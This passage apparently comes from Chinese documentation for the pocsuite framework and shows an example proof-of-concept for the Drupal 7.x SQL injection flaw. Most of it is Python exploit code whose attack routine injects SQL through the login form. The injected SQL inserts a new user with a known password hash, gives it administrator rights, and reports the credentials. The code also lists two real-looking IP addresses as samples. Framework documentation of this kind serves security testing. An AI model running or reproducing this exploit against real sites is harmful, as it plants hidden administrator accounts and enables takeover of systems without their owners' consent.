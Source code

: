     > "Password": 是result中 AdminInfo 中的字段，其值支持正则表达式，如果需要使用正则表达式来获取页面信息，则需要在表达式字符串前加`<regex>`


<h2 id="pocexample">PoC 代码示例</h2>

<h3 id="pyexample">PoC py代码示例</h3>

[Drupal 7.x /includes/database/database.inc SQL注入漏洞](http://www.seebug.org/vuldb/ssvid-88927) PoC:
```
#!/usr/bin/env python
# coding: utf-8
import urllib
import random
import string
from collections import OrderedDict

from pocsuite.net import req
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register


class TestPOC(POCBase):
    vulID = '1571'  # vul ID
    version = '1'
    author = 'zhengdt'
    vulDate = '2014-10-16'
    createDate = '2014-10-16'
    updateDate = '2014-10-16'
    references = ['https://www.sektioneins.de/en/blog/14-10-15-drupal-sql-injection-vulnerability.html']
    name = 'Drupal 7.x /includes/database/database.inc SQL注入漏洞 POC'
    appPowerLink = 'https://www.drupal.org/'
    appName = 'Drupal'
    appVersion = '7.x'
    vulType = 'SQL Injection'
    desc = '''
        Drupal 在处理 IN 语句时，展开数组时 key 带入 SQL 语句导致 SQL 注入，
        可以添加管理员、造成信息泄露。
    '''

    samples = ['http://216.119.147.168/', 'http://69.172.67.176/']

    def _attack(self):
        result = {}
        vul_url = '%s/?q=node&destination=node' % self.url
        uid = int(random.random() * 1000)
        username = ''.join(random.sample(string.letters+string.digits, 5))
        payload = OrderedDict()

        if not self._verify(verify=False):
            return self.parse_attack(result)

        payload['name[0;insert into users(uid, name, pass, status, data) values (%d, \'%s\', ' \
                '\'$S$DkIkdKLIvRK0iVHm99X7B/M8QC17E1Tp/kMOd1Ie8V/PgWjtAZld\', 1, \'{b:0;}\');' \
                'insert into users_roles(uid, rid) values (%d, 3);#]' % (uid, username, uid)] \
                 = 'test'
        payload['name[0]'] = 'test2'
        payload['pass'] = 'test'
        payload['form_id'] = 'user_login_block'

        #print urllib.urlencode(payload)
        response = req.post(vul_url, data=payload)
        if response.status_code == 200:
            result['AdminInfo'] = {}
            result['AdminInfo']['Username'] = username
            result['AdminInfo']['Password'] = 'thanks'
```